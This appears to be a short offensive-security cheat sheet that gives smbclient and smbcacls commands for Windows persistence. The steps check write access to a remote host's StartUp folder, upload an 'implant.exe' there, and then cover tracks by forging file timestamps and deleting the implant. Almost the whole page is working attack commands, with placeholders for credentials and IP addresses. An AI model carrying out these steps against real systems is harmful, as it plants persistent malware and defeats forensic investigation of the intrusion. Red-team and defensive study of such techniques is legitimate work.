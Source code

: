 # Unix Shell

TODO: Convert the command lines to remote enumeration

## 01 - Detect

```
$ smbcacls -U "<username>%<password>" //<IP>/C$ "/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp"
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls "/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp"
```

## 02 - Exploit

Take note of the timestamps

```
smb: \> allinfo file.txt

smb: \> put implant.exe
```

## 03 - Cleanup


```
smb: \> help utimes
HELP utimes:
		<file name> <create_time> <access_time> <mod_time> <ctime> set times

smb: \> utimes file.txt [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss
```

```
smb: \> rm implant.exe
```